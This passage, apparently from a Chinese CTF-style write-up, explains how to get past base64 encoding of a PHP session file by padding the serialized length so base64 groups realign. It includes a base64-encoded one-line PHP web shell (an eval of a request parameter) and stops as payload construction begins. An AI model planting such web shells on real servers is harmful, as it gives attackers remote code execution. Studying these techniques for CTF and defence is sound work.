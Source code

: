 ##### bypass base64_encode

这里其实我也看了好久我才明白什么意思

其实我们这里全部解密失败的原因是下面的

```cobol
我们传入的内容
username|s:36:"PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pOz8+";
 
我们只需要特殊关注下面的内容
 
username|s:36:"  我们回忆一下64个字符中 并不存在 : " 吧
 
所以其实解密只会解密到
 
usernames36
 
按照base64 四个为一组进行解密
 
user name s36X 后面的X是占位符
 
 
这里我们发现 最后是 s36 然后就没有了 那么是不是需要后面我们的shell来补齐
 
PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pOz8+
 
就会补齐一个上去
 
所以变为了
 
s36P D9wa   我们的木马就被破坏了 
 
所以我们需要找到一个方法 让s36这块变成4个
 
其实很简单
 
s:36 后面的36 是按照我们传入的木马字符数 进行获取
 
如果我们传递一个100个字符的字符串
 
那么是不是就会变为 s100   （假设为100）
 
那么现在base64解密
 
是不是就变为了
 
user name s100 PD9wa HAgZ ....... 正常解密了 后面的加密字符串
```

那我们可以开始构造payload了

然后我们传递一下
